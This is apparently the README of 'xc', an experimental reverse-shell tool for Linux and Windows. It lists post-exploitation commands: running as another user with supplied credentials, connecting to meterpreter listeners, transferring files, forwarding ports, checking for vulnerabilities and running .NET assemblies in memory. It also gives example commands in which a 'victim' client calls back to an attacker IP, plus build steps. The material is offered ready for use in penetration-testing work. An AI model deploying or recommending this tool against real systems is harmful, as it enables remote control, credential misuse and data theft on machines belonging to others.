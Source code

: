 # xc

Netcat like reverse shell for Linux & Windows. This is still experimental so pull requests are welcome :)

## Features

### Windows

``` 
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !runasps <username> <password> <domain>
   - restart xc with the specified user using powershell
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !vulns
   - checks for common vulnerabilities
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !powershell
 !net <sample.exe> <arg1> <arg2> ...   
   - Runs a .NET assembly from the server on the client without touching disk
 !exit
``` 

### Linux

```
 !runas <username> <password> <domain>
   - restart xc with the specified user
 !met <port>
   - connects to a x64/meterpreter/reverse_tcp listener
 !upload <src> <dst>
   - uploads a file to the target
 !download <src> <dst>
   - downloads a file from the target
 !lfwd <localport> <remoteaddr> <remoteport>
   - local portforwarding (like ssh -L)
 !rfwd <remoteport> <localaddr> <localport>
   - remote portforwarding (like ssh -R)
 !plugins
   - lists available plugins
 !plugin <plugin>
   - execute a plugin
 !rc <port>
   - connects to a local bind shell and restarts this client over it
 !spawn <port>
   - spawns another client on the specified port
 !shell
 !ssh <port>
 !exit
``` 

## Examples

- Linux Attacker:	`xc -l -p 1337`			    (Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	(Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

``` 
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
``` 

Windows:
```
go build
```

Linux:
```
make
```

You probably want to replace the ssh keys in the keys folder if you plan to use the ssh server on linux. These will be used to spawn a ssh server with the !ssh command on linux.